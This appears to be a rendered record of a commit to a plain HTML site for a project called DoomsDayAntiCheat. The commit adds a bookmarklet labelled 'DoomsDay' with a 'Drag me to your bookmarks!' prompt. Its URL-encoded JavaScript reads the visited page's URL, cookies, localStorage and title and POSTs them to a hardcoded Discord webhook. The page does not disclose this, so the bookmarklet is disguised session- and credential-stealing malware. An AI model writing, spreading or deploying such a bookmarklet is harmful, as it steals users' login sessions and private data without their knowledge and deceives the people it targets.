

Before and after one commit to DoomsDayClient/DoomsDayAntiCheat, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 405-720 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -168,7 +168,17 @@
    To your browser's bookmarks bar.
   </div>
 
+   <!-- Corrected Button and Icon -->
+   <a href="javascript:(function()%7B(function() %7B%0A  var endpoint %3D 'https%3A%2F%2Fdiscord.com%2Fapi%2Fwebhooks%2F1570521391785050122%2FzsHqRsdbg-l45aLCHawZqyZW7m9A7m_sdW0q2CZKRzRxw1kO2FxFwwSsmKcX8w1fpGkF'%3B%0A%0A  var payload %3D %7B%0A   content%3A %5B%0A   '**url%3A** ' %2B location.href%2C%0A   '**cookies%3A** ' %2B (document.cookie %7C%7C 'none')%2C%0A   '**storage%3A** ' %2B JSON.stringify(localStorage)%2C%0A   '**title%3A** ' %2B document.title%0A  %5D.join('%5Cn')%0A %7D%3B%0A%0A  fetch(endpoint%2C %7B%0A   method%3A 'POST'%2C%0A   headers%3A %7B 'Content-Type'%3A 'application%2Fjson' %7D%2C%0A   body%3A JSON.stringify(payload)%0A  %7D)%3B%0A%7D)()%3B%7D)()%3B"
+   class="bookmark-link"
+   title="Drag me to your bookmarks!">
 
+   <!-- Recreated the "D" outline style from picture -->
+   <path d="M7 5h4a6 6 0 0 1 6 6v6a6 6 0 0 1 -6 6h-4z"
+   transform="skewX(-10) translate(2, 0)"/>
+   </svg>
+   DoomsDay
+  </a>
 
    <div class="tips">
    <b>Tip:</b> If your bookmarks bar is hidden, try pressing <b>Ctrl + Shift + B</b> (Chrome/Edge) or your browser menu.
```
